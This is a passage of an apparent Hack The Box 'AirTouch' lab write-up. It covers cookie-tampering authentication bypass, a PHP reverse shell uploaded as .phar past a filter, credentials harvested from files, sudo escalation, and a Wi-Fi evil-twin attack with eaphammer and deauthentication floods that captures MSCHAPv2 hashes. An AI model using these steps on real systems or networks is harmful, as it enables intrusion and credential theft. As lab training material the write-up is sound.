Number of bad TKIP (WPA) packets         0
Number of bad CCMP (WPA) packets         0
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ ls -la
total 1804
drwxrwx--- 1 root vboxsf    280 Jan 17 22:13 .
drwxrwx--- 1 root vboxsf     44 Jan 17 18:38 ..
-rwxrwx--- 1 root vboxsf 131841 Jan 17 20:10 diagram-net.png
-rwxrwx--- 1 root vboxsf   4334 Jan 17 21:10 pcapFilter.sh
-rwxrwx--- 1 root vboxsf 743523 Jan 17 20:11 photo_2023-03-01_22-04-52.png
-rwxrwx--- 1 root vboxsf 106880 Jan 17 20:56 scanc44-01.cap
-rwxrwx--- 1 root vboxsf  40830 Jan 17 20:36 scanc6-01.cap
-rwxrwx--- 1 root vboxsf  75920 Jan 17 21:28 scanc6-02.cap
-rwxrwx--- 1 root vboxsf  32249 Jan 17 21:35 scanc6-03.cap
-rwxrwx--- 1 root vboxsf 688344 Jan 17 22:10 scanc6-04.cap
-rwxrwx--- 1 root vboxsf   2981 Jan 17 22:13 scanc6-04-dec.cap
```

A simple `cat` on the file `scanc6-04-dec.cap` revealed an `IP address`, a `PHPSESSID` and a interesting `HTTP Header` called `UserRole`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ cat scanc6-04-dec.cap
<--- CUT FOR BREVITY ---> 
GET /lab.php HTTP/1.1
Host: 192.168.3.1
User-Agent: curl/7.88.1
Accept: */*
Cookie: PHPSESSID=isb6dkl540j3nuujtdlrqojuj5; UserRole=user

<--- CUT FOR BREVITY --->
HTTP/1.1 200 OK
Date: Sat, 17 Jan 2026 20:41:17 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 323
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html>

<head>
    <title>WiFi Router Configuration</title>
    <link rel="stylesheet" href="style.css">
</head>

<body>

Welcome manager<br><br><br><br>
Congratulation! You have logged into password protected page. <a href="index.php">Click here</a> to go to index.php to get the flag. 

</body>

</html>
<--- CUT FOR BREVITY ---> 
```

### Connect to the Service Set Identifier (SSID) of AirTouch-Internet

To connect the the desired `Service Set Identifier (SSID)` we created a `Configuration File` containing the `SSID`, the `PSK` and a few more default values.

```shell
root@AirTouch-Consultant:~# cat AirTouch-Internet.conf
network={
    ssid="AirTouch-Internet"
    psk="challenge"
    scan_ssid=1
    key_mgmt=WPA-PSK
    proto=WPA2
}
```

Then we used `wpa_supplicant` to establish the connection with the `SSID`.

```shell
root@AirTouch-Consultant:~# wpa_supplicant -D nl80211 -i wlan6 -c AirTouch-Internet.conf
Successfully initialized wpa_supplicant                                          
rfkill: Cannot open RFKILL control device                                        
rfkill: Cannot get wiphy information                                             
wlan6: SME: Trying to authenticate with f0:9f:c2:a3:f1:a7 (SSID='AirTouch-Internet' freq=2437 MHz)       
wlan6: Trying to associate with f0:9f:c2:a3:f1:a7 (SSID='AirTouch-Internet' freq=2437 MHz)               
wlan6: Associated with f0:9f:c2:a3:f1:a7                                         
wlan6: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0                                  
wlan6: WPA: Key negotiation completed with f0:9f:c2:a3:f1:a7 [PTK=CCMP GTK=TKIP] 
wlan6: CTRL-EVENT-CONNECTED - Connection to f0:9f:c2:a3:f1:a7 completed [id=0 id_str=]
```

Next we requested an `IP address` using `dhclient`.

```shell
root@AirTouch-Consultant:~# dhclient wlan6 -v                                    
Internet Systems Consortium DHCP Client 4.4.1                                    
Copyright 2004-2018 Internet Systems Consortium.                                 
All rights reserved.                   
For info, please visit https://www.isc.org/software/dhcp/                        
Listening on LPF/wlan6/02:00:00:00:06:00  
Sending on   LPF/wlan6/02:00:00:00:06:00  
Sending on   Socket/fallback           
DHCPDISCOVER on wlan6 to 255.255.255.255 port 67 interval 3 (xid=0xf394b141)     
DHCPOFFER of 192.168.3.31 from 192.168.3.1
DHCPREQUEST for 192.168.3.31 on wlan6 to 255.255.255.255 port 67 (xid=0x41b194f3)                                                                 
DHCPACK of 192.168.3.31 from 192.168.3.1 (xid=0xf394b141)
bound to 192.168.3.31 -- renewal in 38140 seconds.
```

### Port Forwarding

After we obtained an `IP address` we had to forward port `80/TCP` to the new target `192.168.3.1`.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh -L 8080:192.168.3.1:80 consultant@10.129.244.98
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
consultant@10.129.244.98's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sat Jan 17 21:21:10 2026 from 10.10.16.21
consultant@AirTouch-Consultant:~$
```

## Accessing AirTouch Router Dashboard

### Authentication Bypass

Now we were able to access a `Login Page` running on port `80/TCP` of `192.168.3.1`.

- [http://localhost:8080/login.php](http://localhost:8080/login.php)



We opened the `Developer Tools Console` and modified the given values to our needs to perform a successful `Authentication Bypass`.

| Option    | Value                      |
| --------- | -------------------------- |
| PHPSESSID | isb6dkl540j3nuujtdlrqojuj5 |
| UserRole  | admin                      |



After bypassing the authentication we tried to upload a simple `PHP Reverse Shell`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
--2026-01-17 22:35:34--  https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9403 (9.2K) [text/plain]
Saving to: ‘php_reverse_shell.php’

php_reverse_shell.php                                                                                      100%[======================================================================================================================================================================================================================================================================================>]   9.18K  --.-KB/s    in 0s      

2026-01-17 22:35:35 (18.7 MB/s) - ‘php_reverse_shell.php’ saved [9403/9403]
```

We modified the `IP address` to match the `IP address` we requested on the `Beachhead` because the targeted system would probably not be able to make a connection to our local machine.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ tail -10 php_reverse_shell.php 
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('192.168.3.31', 9001);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

### Bypassing Upload Filter

However, our first attempt got denied by `Upload Filter Rules`. Therefore we renamed our file to `shell.phar` and this was enough to `Bypass` the `Upload Filter`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ mv php_reverse_shell.php shell.phar
```

All what was left was to trigger the payload by accessing the `URL` on which our file got stored and we got a `Callback` as `www-data`!

- [http://localhost:8080/uploads/shell.phar](http://localhost:8080/uploads/shell.phar)

```shell
root@AirTouch-Consultant:~# nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 192.168.3.1 58920                                         
SOCKET: Shell has connected! PID: 25280
```

```shell
SOCKET: Shell has connected! PID: 25280
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Shell Stabilization

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@AirTouch-AP-PSK:/var/www/html/uploads$ ^Z
[1]+  Stopped                 nc -lnvp 9001
root@AirTouch-Consultant:~# stty raw -echo;fg
nc -lnvp 9001

www-data@AirTouch-AP-PSK:/var/www/html/uploads$
www-data@AirTouch-AP-PSK:/var/www/html/uploads$
www-data@AirTouch-AP-PSK:/var/www/html/uploads$ export XTERM=xterm
www-data@AirTouch-AP-PSK:/var/www/html/uploads$
```

## Enumeration (www-data on AirTouch-AP-PSK)

And once more we started with the `Enumeration` but this time as the user `www-data`. First, we checked `/etc/passwd` and found another user called `user` on the system,

```shell
www-data@AirTouch-AP-PSK:/var/www/html/uploads$ cat /etc/passwd                  
root:x:0:0:root:/root:/bin/bash           
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
bin:x:2:2:bin:/bin:/usr/sbin/nologin      
sys:x:3:3:sys:/dev:/usr/sbin/nologin      
sync:x:4:65534:sync:/bin:/bin/sync        
games:x:5:60:games:/usr/games:/usr/sbin/nologin  
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin  
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin     
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin      
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin                              
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin                             
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin                             
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin                    
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin                       
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin 
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin                                
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin                                     
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin     
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin                             
dnsmasq:x:105:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin                   
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin    
user:x:1000:1000::/home/user:/bin/bash
```

| Username |
| -------- |
| user     |

## Privilege Escalation to user (AirTOUCH-AP-PSK)

Then we started looking for credentials in the files within our landing directory to `PrivEsc` to `user`. Inside the file `login.php` we found the `Password` for the user `user` and for the user `manager`.

```shell
www-data@AirTouch-AP-PSK:/var/www/html$ cat login.php 
<?php session_start(); /* Starts the session */

// Check if user is already logged in
if (isset($_SESSION['UserData']['Username'])) {
  header("Location:index.php"); // Redirect to index.php
  exit; // Make sure to exit after redirection
}

session_start();


if (isset($_POST['Submit'])) {
  /* Define username, associated password, and user attribute array */
  $logins = array(
    /*'user' => array('password' => 'JunDRDZKHDnpkpDDvay', 'role' => 'admin'),*/
    'manager' => array('password' => '2wLFYNh4TSTgA5sNgT4', 'role' => 'user')
  );

  /* Check and assign submitted Username and Password to new variable */
  $Username = isset($_POST['Username']) ? $_POST['Username'] : '';
  $Password = isset($_POST['Password']) ? $_POST['Password'] : '';

  /* Check Username and Password existence in defined array */
  if (isset($logins[$Username]) && $logins[$Username]['password'] === $Password) {
    /* Success: Set session variables and redirect to Protected page  */
    $_SESSION['UserData']['Username'] = $logins[$Username]['password'];
    /* Success: Set session variables USERNAME  */
    $_SESSION['Username'] = $Username;

    // Set a cookie with the user's role
    setcookie('UserRole', $logins[$Username]['role'], time() + (86400 * 30), "/"); // 86400 = 1 day

    header("location:index.php");
    exit;
  } else {
    /*Unsuccessful attempt: Set error message */
    $msg = "<span style='color:red'>Invalid Login Details</span>";
  }
}
<--- CUT FOR BREVITY --->
```

| Username | Password            |
| -------- | ------------------- |
| user     | JunDRDZKHDnpkpDDvay |
| manager  | 2wLFYNh4TSTgA5sNgT4 |

That allowed us switch to `user`.

```shell
www-data@AirTouch-AP-PSK:/var/www/html$ su user
Password: 
user@AirTouch-AP-PSK:/var/www/html$
```

## Enumeration (user on AirTouch-AP-PSK)

The user was granted with `(ALL) NOPASSWD: ALL` permissions on `sudo` and let us quickly `PrivEsc` to `root` using `sudo su`.

```shell
user@AirTouch-AP-PSK:/var/www/html$ sudo -l
Matching Defaults entries for user on AirTouch-AP-PSK:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on AirTouch-AP-PSK:
    (ALL) NOPASSWD: ALL
```

## Privilege Escalation to root (AirTouch-AP-PSK)

```shell
ser@AirTouch-AP-PSK:/var/www/html/uploads$ sudo su -
root@AirTouch-AP-PSK:~#
```

## user.txt

Within `/root` we finally found the `user.txt`.

```shell
root@AirTouch-AP-PSK:~# cat user.txt
9c4067d35eb2e66d282767da3bdebe4d
```

## Enumeration (root on AirTouch-AP-PSK)

The next step was to check the `Files` within `/root` to see if we could find any useful information on how to move forward using `eaphammer`.

Within `send_certs.sh` we found more `Credentials`.

```shell
root@AirTouch-AP-PSK:~# cat send_certs.sh
#!/bin/bash

# DO NOT COPY
# Script to sync certs-backup folder to AirTouch-office. 

# Define variables
REMOTE_USER="remote"
REMOTE_PASSWORD="xGgWEwqUpfoOVsLeROeG"
REMOTE_PATH="~/certs-backup/"
LOCAL_FOLDER="/root/certs-backup/"

# Use sshpass to send the folder via SCP
sshpass -p "$REMOTE_PASSWORD" scp -r "$LOCAL_FOLDER" "$REMOTE_USER@10.10.10.1:$REMOTE_PATH"
```

| Username | Password             |
| -------- | -------------------- |
| remote   | xGgWEwqUpfoOVsLeROeG |

## Lateral Movement (AirTouch-AP-MGT)

### Evil Twin Attack using eaphammer

Within `/root` we also found a directory called `certs-backup` which contained the `Certificates` we found earlier.

```shell
root@AirTouch-AP-PSK:~# ls -la
total 44
drwx------ 1 root root 4096 Jan 17 19:01 .
drwxr-xr-x 1 root root 4096 Jan 17 19:01 ..
lrwxrwxrwx 1 root root    9 Nov 24  2024 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
drwxr-xr-x 2 root root 4096 Mar 27  2024 certs-backup
-rwxr-xr-x 1 root root    0 Mar 27  2024 cronAPs.sh
drwxr-xr-x 1 root root 4096 Jan 17 19:02 psk
-rw-r--r-- 1 root root  364 Nov 24  2024 send_certs.sh
-rwxr-xr-x 1 root root 1963 Mar 27  2024 start.sh
-rw-r----- 1 root 1001   33 Jan 17 19:01 user.txt
-rw-r--r-- 1 root root  319 Mar 27  2024 wlan_config_aps
```

```shell
root@AirTouch-AP-PSK:~# ls -la certs-backup/
total 40
drwxr-xr-x 2 root root 4096 Mar 27  2024 .
drwx------ 1 root root 4096 Jan 17 19:01 ..
-rw-r--r-- 1 root root 1124 Mar 27  2024 ca.conf
-rw-r--r-- 1 root root 1712 Mar 27  2024 ca.crt
-rw-r--r-- 1 root root 1111 Mar 27  2024 server.conf
-rw-r--r-- 1 root root 1493 Mar 27  2024 server.crt
-rw-r--r-- 1 root root 1033 Mar 27  2024 server.csr
-rw-r--r-- 1 root root  168 Mar 27  2024 server.ext
-rw-r--r-- 1 root root 1704 Mar 27  2024 server.key
```

We created a `tarball` and downloaded it onto the `Consultant Laptop`.

```shell
root@AirTouch-AP-PSK:~# tar -czvf certs.tar.gz certs-backup/
certs-backup/
certs-backup/server.csr
certs-backup/server.crt
certs-backup/ca.crt
certs-backup/ca.conf
certs-backup/server.conf
certs-backup/server.ext
certs-backup/server.key
```

```shell
root@AirTouch-Consultant:/home/consultant# scp user@192.168.3.1:/home/user/certs.tar.gz .
The authenticity of host '192.168.3.1 (192.168.3.1)' can't be established.
ECDSA key fingerprint is SHA256:++nw1pytCTTnPb2ngccd1CzlYaYUoTF8GmQ3a3QHnaU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.3.1' (ECDSA) to the list of known hosts.
user@192.168.3.1's password: 
certs.tar.gz
```

```shell
root@AirTouch-Consultant:/home/consultant# tar -xvf certs.tar.gz 
certs-backup/
certs-backup/server.csr
certs-backup/server.crt
certs-backup/ca.crt
certs-backup/ca.conf
certs-backup/server.conf
certs-backup/server.ext
certs-backup/server.key
```

Next we needed to `Import` the `Certificates` into `eaphammer`.

- [https://github.com/s0lst1c3/eaphammer](https://github.com/s0lst1c3/eaphammer)

```shell
root@AirTouch-Consultant:~/eaphammer# python3 ./eaphammer --cert-wizard import --server-cert /home/consultant/certs-backup/server.crt --ca-cert /home/consultant/certs-backup/ca.crt --private-key /home/consultant/certs-backup/server.key --private-key-passwd whatever

                     .__                                         
  ____ _____  ______ |  |__ _____    _____   _____   ___________ 
_/ __ \\__  \ \____ \|  |  \\__  \  /     \ /     \_/ __ \_  __ \
\  ___/ / __ \|  |_> >   Y  \/ __ \|  Y Y  \  Y Y  \  ___/|  | \/
 \___  >____  /   __/|___|  (____  /__|_|  /__|_|  /\___  >__|   
     \/     \/|__|        \/     \/      \/      \/     \/       


                        Now with more fast travel than a next-gen Bethesda game. >:D

                             Version:  1.14.0
                            Codename:  Final Frontier
                              Author:  @s0lst1c3
                             Contact:  gabriel<<at>>transmitengage.com

    
[?] Am I root?
[*] Checking for rootness...
[*] I AM ROOOOOOOOOOOOT
[*] Root privs confirmed! 8D
Case 1: Import all separate
[CW] Ensuring server cert, CA cert, and private key are valid...
/home/consultant/certs-backup/server.crt
/home/consultant/certs-backup/server.key
/home/consultant/certs-backup/ca.crt
[CW] Complete!
[CW] Loading private key from /home/consultant/certs-backup/server.key
[CW] Complete!
[CW] Loading server cert from /home/consultant/certs-backup/server.crt
[CW] Complete!
[CW] Loading CA certificate chain from /home/consultant/certs-backup/ca.crt
[CW] Complete!
[CW] Constructing full certificate chain with integrated key...
[CW] Complete!
[CW] Writing private key and full certificate chain to file...
[CW] Complete!
[CW] Private key and full certificate chain written to: /root/eaphammer/certs/server/AirTouch CA.pem
[CW] Activating full certificate chain...
[CW] Complete!
```

After the successful import we started `eaphammer` to listen for incoming connections.

```shell
root@AirTouch-Consultant:~/eaphammer# python3 ./eaphammer -i wlan3 --auth wpa-eap --essid AirTouch-Office --creds --negotiate balanced

                     .__                                         
  ____ _____  ______ |  |__ _____    _____   _____   ___________ 
_/ __ \\__  \ \____ \|  |  \\__  \  /     \ /     \_/ __ \_  __ \
\  ___/ / __ \|  |_> >   Y  \/ __ \|  Y Y  \  Y Y  \  ___/|  | \/
 \___  >____  /   __/|___|  (____  /__|_|  /__|_|  /\___  >__|   
     \/     \/|__|        \/     \/      \/      \/     \/       


                        Now with more fast travel than a next-gen Bethesda game. >:D

                             Version:  1.14.0
                            Codename:  Final Frontier
                              Author:  @s0lst1c3
                             Contact:  gabriel<<at>>transmitengage.com

    
[?] Am I root?
[*] Checking for rootness...
[*] I AM ROOOOOOOOOOOOT
[*] Root privs confirmed! 8D
[*] Saving current iptables configuration...
[*] Reticulating radio frequency splines...
Error: Could not create NMClient object: Could not connect: No such file or directory.

[*] Using nmcli to tell NetworkManager not to manage wlan3...

100%|███████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:01<00:00,  1.23s/it]

[*] Success: wlan3 no longer controlled by NetworkManager.
[*] WPA handshakes will be saved to /root/eaphammer/loot/wpa_handshake_capture-2026-01-17-23-36-31-H7b5qEUr81SiGmYST017zjNyEfIfmP48.hccapx

[hostapd] AP starting...

Configuration file: /root/eaphammer/tmp/hostapd-2026-01-17-23-36-31-BA6d9S9UYdxfsFIJ4SmHlC4PXSKIP3F5.conf
rfkill: Cannot open RFKILL control device
wlan3: interface state UNINITIALIZED->COUNTRY_UPDATE
Using interface wlan3 with hwaddr 00:11:22:33:44:00 and ssid "AirTouch-Office"
wlan3: interface state COUNTRY_UPDATE->ENABLED
wlan3: AP-ENABLED 


Press enter to quit...
```

To avoid any problems we `stopped` the `monitoring` on `both interfaces` and configured them from scratch.

```shell
root@AirTouch-Consultant:/home/consultant# airmon-ng stop wlan0mon                   
Your kernel has module support but you don't have modprobe installed. 
It is highly recommended to install modprobe (typically from kmod).   
Your kernel has module support but you don't have modinfo installed.  
It is highly recommended to install modinfo (typically from kmod).    
Warning: driver detection without modinfo may yield inaccurate results.                   
 
PHY     Interface       Driver          Chipset                       
 
phy0    wlan0mon        mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
 
                (mac80211 station mode vif enabled on [phy0]wlan0)    
 
                (mac80211 monitor mode vif disabled for [phy0]wlan0mon)                   
phy1    wlan1           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy2    wlan2mon        mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy3    wlan3           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy4    wlan4           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy5    wlan5           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy6    wlan6           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
```

```shell
root@AirTouch-Consultant:/home/consultant# airmon-ng stop wlan2mon  
Your kernel has module support but you don't have modprobe installed.     
It is highly recommended to install modprobe (typically from kmod).       
Your kernel has module support but you don't have modinfo installed.      
It is highly recommended to install modinfo (typically from kmod).        
Warning: driver detection without modinfo may yield inaccurate results.   
  
PHY     Interface       Driver          Chipset                           
  
phy0    wlan0           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy1    wlan1           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy2    wlan2mon        mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
  
                (mac80211 station mode vif enabled on [phy2]wlan2)        
  
                (mac80211 monitor mode vif disabled for [phy2]wlan2mon)   
phy3    wlan3           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy4    wlan4           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy5    wlan5           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy6    wlan6           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
```

```shell
root@AirTouch-Consultant:/home/consultant# airmon-ng start wlan0 
Your kernel has module support but you don't have modprobe installed. 
It is highly recommended to install modprobe (typically from kmod).   
Your kernel has module support but you don't have modinfo installed.  
It is highly recommended to install modinfo (typically from kmod).    
Warning: driver detection without modinfo may yield inaccurate results.                   
 
Found 2 processes that could cause trouble.                           
Kill them using 'airmon-ng check kill' before putting                 
the card in monitor mode, they will interfere by changing channels    
and sometimes putting the interface back in managed mode              
 
    PID Name                                                          
  15495 wpa_supplicant                                                
  15609 dhclient                                                      
 
PHY     Interface       Driver          Chipset                       
 
phy0    wlan0           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
 
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)     
                (mac80211 station mode vif disabled for [phy0]wlan0)  
phy1    wlan1           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy2    wlan2           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy3    wlan3           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy4    wlan4           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy5    wlan5           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy6    wlan6           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
```

```shell
root@AirTouch-Consultant:/home/consultant# airmon-ng start wlan1     
Your kernel has module support but you don't have modprobe installed.     
It is highly recommended to install modprobe (typically from kmod).       
Your kernel has module support but you don't have modinfo installed.      
It is highly recommended to install modinfo (typically from kmod).        
Warning: driver detection without modinfo may yield inaccurate results.   
  
Found 2 processes that could cause trouble.                               
Kill them using 'airmon-ng check kill' before putting                     
the card in monitor mode, they will interfere by changing channels        
and sometimes putting the interface back in managed mode                  
  
    PID Name                                                              
  15495 wpa_supplicant                                                    
  15609 dhclient                                                          
  
PHY     Interface       Driver          Chipset                           
  
phy0    wlan0mon        mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy1    wlan1           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
  
                (mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)     
                (mac80211 station mode vif disabled for [phy1]wlan1)      
phy2    wlan2           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy3    wlan3           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy4    wlan4           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy5    wlan5           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
phy6    wlan6           mac80211_hwsim  Software simulator of 802.11 radio(s) for mac80211
```

```shell
root@AirTouch-Consultant:/home/consultant# iwconfig wlan0mon channel 44
```

```shell
root@AirTouch-Consultant:/home/consultant# iwconfig wlan1mon channel 44
```

After that started `airodump-ng` once more to capture the `Authentication` against our `Evil Twin` provided by `eaphammer`.

```shell
root@AirTouch-Consultant:/home/consultant# airodump-ng wlan0mon -w outie -c 44 --wps
23:37:04  Created capture file "outie-09.cap".

 CH 44 ][ Elapsed: 5 mins ][ 2026-01-17 23:42 ][ WPA handshake: AC:8B:A9:AA:3F:D2                     
       
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID           
       
 AC:8B:A9:AA:3F:D2  -28 100     2096      442    0  44   54e  WPA2 CCMP   MGT         AirTouch-Office 
 AC:8B:A9:F3:A1:13  -29 100     2090        0    0  44   54e  WPA2 CCMP   MGT         AirTouch-Office 
       
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                    
       
 AC:8B:A9:AA:3F:D2  C8:8A:9A:6F:F9:D2  -29    6e- 6e     0    15922  PMKID  AccessLink,AirTouch-Office
 AC:8B:A9:AA:3F:D2  28:6C:07:12:EE:A1  -29    6e- 6e     0      226  PMKID  AirTouch-Office           
 AC:8B:A9:AA:3F:D2  28:6C:07:12:EE:F3  -29    6e- 6e     0      231  PMKID  AirTouch-Office
```

To enforce the `Authentication` we used `aireplay-ng` to send `Deauthentication Packages` to both clients.

```shell
root@AirTouch-Consultant:/home/consultant# aireplay-ng -0 0 -a AC:8B:A9:AA:3F:D2 wlan0mon -c C8:8A:9A:6F:F9:D2
23:36:57  Waiting for beacon frame (BSSID: AC:8B:A9:AA:3F:D2) on channel 44
23:36:57  Sending 64 directed DeAuth (code 7). STMAC: [C8:8A:9A:6F:F9:D2] [ 0| 0 ACKs]
23:36:59  Sending 64 directed DeAuth (code 7). STMAC: [C8:8A:9A:6F:F9:D2] [ 0| 0 ACKs]
23:36:59  Sending 64 directed DeAuth (code 7). STMAC: [C8:8A:9A:6F:F9:D2] [ 0| 0 ACKs]
```

```shell
root@AirTouch-Consultant:/home/consultant# aireplay-ng -0 0 -a AC:8B:A9:F3:A1:13 wlan1mon -c C8:8A:9A:6F:F9:D2
23:37:00  Waiting for beacon frame (BSSID: AC:8B:A9:F3:A1:13) on channel 44
23:37:00  Sending 64 directed DeAuth (code 7). STMAC: [C8:8A:9A:6F:F9:D2] [ 0| 0 ACKs]
23:37:01  Sending 64 directed DeAuth (code 7). STMAC: [C8:8A:9A:6F:F9:D2] [ 0| 0 ACKs]
23:37:02  Sending 64 directed DeAuth (code 7). STMAC: [C8:8A:9A:6F:F9:D2] [ 0| 0 ACKs]
```

And after a few seconds we got a hit!

```shell
wlan3: STA c8:8a:9a:6f:f9:d2 IEEE 802.11: authenticated
wlan3: STA c8:8a:9a:6f:f9:d2 IEEE 802.11: associated (aid 1)
wlan3: CTRL-EVENT-EAP-STARTED c8:8a:9a:6f:f9:d2
wlan3: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan3: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25


mschapv2: Sat Jan 17 23:37:03 2026
         domain\username:               AirTouch\r4ulcl
         username:                      r4ulcl
         challenge:                     03:d0:42:69:37:98:2a:85
         response:                      27:51:b3:55:c2:b8:d1:ea:e4:5f:5c:33:a5:cc:59:76:24:a1:04:04:8a:14:8a:69

         jtr NETNTLM:                   r4ulcl:$NETNTLM$03d0426937982a85$2751b355c2b8d1eae45f5c33a5cc597624a104048a148a69

         hashcat NETNTLM:               r4ulcl::::2751b355c2b8d1eae45f5c33a5cc597624a104048a148a69:03d0426937982a85


wlan3: CTRL-EVENT-EAP-FAILURE c8:8a:9a:6f:f9:d2
wlan3: STA c8:8a:9a:6f:f9:d2 IEEE 802.1X: authentication failed - EAP type: 0 (unknown)
wlan3: STA c8:8a:9a:6f:f9:d2 IEEE 802.1X: Supplicant used different EAP type: 25 (PEAP)
wlan3: STA c8:8a:9a:6f:f9:d2 IEEE 802.11: deauthenticated due to local deauth request
wlan3: STA c8:8a:9a:6f:f9:d2 IEEE 802.11: authenticated
wlan3: STA c8:8a:9a:6f:f9:d2 IEEE 802.11: associated (aid 1)
wlan3: CTRL-EVENT-EAP-STARTED c8:8a:9a:6f:f9:d2
wlan3: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan3: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25


mschapv2: Sat Jan 17 23:37:53 2026
         domain\username:               AirTouch\r4ulcl
         username:                      r4ulcl
         challenge:                     24:e5:82:91:91:7a:2e:26
         response:                      63:b4:99:bd:e9:7f:04:61:2d:9d:0d:28:c4:70:e0:58:cf:3d:1e:5e:12:d5:ef:82

         jtr NETNTLM:                   r4ulcl:$NETNTLM$24e58291917a2e26$63b499bde97f04612d9d0d28c470e058cf3d1e5e12d5ef82

